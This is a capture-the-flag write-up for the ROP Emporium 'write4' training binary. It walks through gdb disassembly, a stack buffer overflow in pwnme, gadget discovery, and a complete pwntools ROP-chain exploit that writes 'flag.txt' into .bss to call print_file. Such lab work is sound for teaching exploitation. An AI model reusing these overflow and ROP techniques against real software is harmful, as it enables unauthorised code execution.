

Goal of the challenge is understanding how to abuse readable and writable memory regions in binary files.The target binary can be downloaded from the authors website [ropemporium](https://ropemporium.com).

> Our first foray into proper gadget use.
> A useful function is still present, but we'll need to write a string into memory somehow.

First we check the binary protections enabled on the binary. Only **NX** (Not executable) protection is enabled on the binary according to `checksec` binary utility as shown in the image below.

```bash
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

For analysis of binary, we will use gdb debugger to analyze the functions. For analysis of our binary we start at the `main` function which is the entrypoint of our execution.

```nasm
(gdb) disas main
Dump of assembler code for function main:
   0x0000000000400607 <+0>:	push   rbp
   0x0000000000400608 <+1>:	mov    rbp,rsp
   0x000000000040060b <+4>:	call   0x400500 <pwnme@plt>
   0x0000000000400610 <+9>:	mov    eax,0x0
   0x0000000000400615 <+14>:	pop    rbp
   0x0000000000400616 <+15>:	ret
End of assembler dump.
(gdb)
```

From the above, the main function only calls `pwnme` function which looks interesting to us. Disassemble the **pwnme** function as shown below. `pwnme@plt` is used for referencing `pwnme` real address. Next step is analyzing `libwrite4.so` library using gdb.

```nasm
vx@archie:write4$ gdb -q libwrite4.so
Reading symbols from libwrite4.so...
(No debugging symbols found in libwrite4.so)
(gdb) disas pwnme
Dump of assembler code for function pwnme:
   0x00000000000008aa <+0>:	push   rbp
   0x00000000000008ab <+1>:	mov    rbp,rsp
   0x00000000000008ae <+4>:	sub    rsp,0x20
   0x00000000000008b2 <+8>:	mov    rax,QWORD PTR [rip+0x200727]        # 0x200fe0
   0x00000000000008b9 <+15>:	mov    rax,QWORD PTR [rax]
   0x00000000000008bc <+18>:	mov    ecx,0x0
   0x00000000000008c1 <+23>:	mov    edx,0x2
   0x00000000000008c6 <+28>:	mov    esi,0x0
   0x00000000000008cb <+33>:	mov    rdi,rax
   0x00000000000008ce <+36>:	call   0x790 <setvbuf@plt>
   0x00000000000008d3 <+41>:	lea    rdi,[rip+0x106]        # 0x9e0
   0x00000000000008da <+48>:	call   0x730 <puts@plt>
   0x00000000000008df <+53>:	lea    rdi,[rip+0x111]        # 0x9f7
   0x00000000000008e6 <+60>:	call   0x730 <puts@plt>
   0x00000000000008eb <+65>:	lea    rax,[rbp-0x20]
   0x00000000000008ef <+69>:	mov    edx,0x20
   0x00000000000008f4 <+74>:	mov    esi,0x0
   0x00000000000008f9 <+79>:	mov    rdi,rax
   0x00000000000008fc <+82>:	call   0x760 <memset@plt>
   0x0000000000000901 <+87>:	lea    rdi,[rip+0xf8]        # 0xa00
   0x0000000000000908 <+94>:	call   0x730 <puts@plt>
   0x000000000000090d <+99>:	lea    rdi,[rip+0x115]        # 0xa29
   0x0000000000000914 <+106>:	mov    eax,0x0
   0x0000000000000919 <+111>:	call   0x750 <printf@plt>
   0x000000000000091e <+116>:	lea    rax,[rbp-0x20]
   0x0000000000000922 <+120>:	mov    edx,0x200
   0x0000000000000927 <+125>:	mov    rsi,rax
   0x000000000000092a <+128>:	mov    edi,0x0
   0x000000000000092f <+133>:	call   0x770 <read@plt>
   0x0000000000000934 <+138>:	lea    rdi,[rip+0xf1]        # 0xa2c
   0x000000000000093b <+145>:	call   0x730 <puts@plt>
   0x0000000000000940 <+150>:	nop
   0x0000000000000941 <+151>:	leave
   0x0000000000000942 <+152>:	ret
End of assembler dump.
(gdb)
```

From the assembly code above, we are filling a buffer of size 0x20(32bytes) with a constant byte of zero. `memset` libc function is used to overwrite any values that have the memory area specified. The memory we are overwriting is [rbp-0x20]. This means we are allocating a memory buffer of size 32 bytes from the address of base pointer in the stack.



Therefore the next interesting libc function is **read** function, which reads user input and stores results in the specified buffer.From the above disassembled code, we are reading 0x200 bytes from the user and storing it in our buffer. This means we are reading more than what the buffer can hold, therefore leading to a stack buffer overflow.

```c
ssize_t read(int fd, void *buf, size_t count);  // read(0,[rbp-0x20], 0x200)
```

From the vulnerability,we can exploit it in order to abuse the control flow of the program by controlling the value of the return address.

From the authors hint, we need to look for an ELF section that is writable in order to write our target string.

> Perhaps the most important thing to consider in this challenge is where we're going to write our "flag.txt" string. Use rabin2 or readelf to check out the different sections of this binary and their permissions. Learn a little about ELF sections and their purpose.

Opening the binary in radare2, we can check permissions of different sections using the command **iS** as shown in the image below.


From the above we are able to determine the data and bss section are both readable and writable. Our target for the gadgets is to write our string to the **bss** section. Therefore we need to get memory address of **.bss** area.

From the authors challenge hint, we need to disassemble `usefulFunction` to understand how it works.

> Important!: A PLT entry for a function named print_file() exists within the challenge binary, simply call it with the name of a file you wish to read (like "flag.txt") as the 1st argument.

`usefulFunction` function is responsible for calling **print_file** function as hinted by the author.


From the analysis of the above function, we can determine we are passing a string file name called **"nonexistent"** to the print_file function. The content of the arguments passed to the print_file function will be printed out to the user. Our goal is to pass our string of interest **flag.txt** to the the print_file function.

From the disassembly of the binary we have another interesting function called **usefulGadgets**.

```nasm
(gdb) disas usefulGadgets
Dump of assembler code for function usefulGadgets:
   0x0000000000400628 <+0>:	mov    QWORD PTR [r14],r15
   0x000000000040062b <+3>:	ret
   0x000000000040062c <+4>:	nop    DWORD PTR [rax+0x0]
End of assembler dump.
(gdb)
```

The gadget from the above assembly code will enable us to write content of `r15` register to memory address [r14]. Next step is to look for gadgets that will enable us to control both **r14** and **r15** register values.

For building our chain, we need to understand the calling conventions of AMD64 ABI.The calling convention passes the arguments to the registers in the following order. RDI, RSI, RDX, RCX, R8 and R9.In x86 assembly **pop** instruction is used for putting value to the memory address, therefore we look for a pop gadget that will enable to control both `r14` and `r15`.

```nasm
  0x0040068f                 5d  pop rbp
  0x00400690               415e  pop r14
  0x00400692               415f  pop r15
  0x00400694                 c3  ret
```

Example of the above gadget, we have a pop rbp, pop r14, pop 15 ret instruction gadget. This gadget will enable us to control the desired registers. Because we don't need the rbp register, for our ropchain, we take the address pointed by pop14 **0x00400690**. This is possible because rop gadgets are set of instructions that end with **ret**.

From the disassembly of `usefulgadgets` function we know register r14 points to a memory region we want to write to. Therefore our strategy is to set the value of r14 register to be the address pointer of **.bss** section of ELF and r15 register to be the value we want to write to **.bss** section.

> Hopefully you've realized that ROP is just a form of arbitrary code execution and if we get creative we can leverage it to do things like write to or read from memory. The question we need to answer is: what mechanism are we going to use to solve this problem? Is there any built-in functionality to do the writing or do we need to use gadgets? In this challenge we won't be using built-in functionality since that's too similar to the previous challenges, instead we'll be looking for gadgets that let us write a value to memory such as mov [reg], reg.

```nasm
  0x00400628             4d893e  mov qword [r14], r15
  0x0040062b                 c3  ret
```

Therefore, two gadgets will enable us to set the register values of `r14` and `r15` and copy the values of r15 to the memory region defined by r14.

Last is a find a gadget that will aid passing of an argument to the `print_file` function. Because the function takes one argument, we look for a `pop rdi ret` instruction

```nasm
  0x00400693                 5f  pop rdi
  0x00400694                 c3  ret
```

Now we have three separate rop gadgets, which we can chain them together to get a fully working rop chain. This chain will enable us to read the file content of the **flag.txt** and display output to the console.

A fully working ropchain exploit code of the challenge is,

```python
import pwn

pwn.context.arch = "amd64"
pwn.context.encoding ="latin-1"
pwn.warnings.simplefilter("ignore")
io = pwn.process('./write4')

bss_area = pwn.p64(0x00601038)
pop_r14_r15 = pwn.p64(0x00400690)
pop_rdi = pwn.p64(0x00400693)
mov_r14_r15 = pwn.p64(0x00400628)
print_file_addr = pwn.p64(0x0000000000400510)

payload = b"A" * 32 #fill the buffer
payload += b"B" *8  #overwrite the base pointer
payload += pop_r14_r15
payload += bss_area
payload += b"flag.txt"
payload += mov_r14_r15
payload += pop_rdi
payload += bss_area
payload += print_file_addr

io.writeafter('>', payload)

pwn.info(io.recvall().decode())
```

Successful execution of our exploit, will display a success flag.

```bash
vx@archie:write4$ python3 x.py
[+] Starting local process './write4': pid 7275
[+] Receiving all data: Done (45B)
[*] Process './write4' stopped with exit code -11 (SIGSEGV) (pid 7275)
[*]  Thank you!
    ROPE{a_placeholder_32byte_flag!}
```
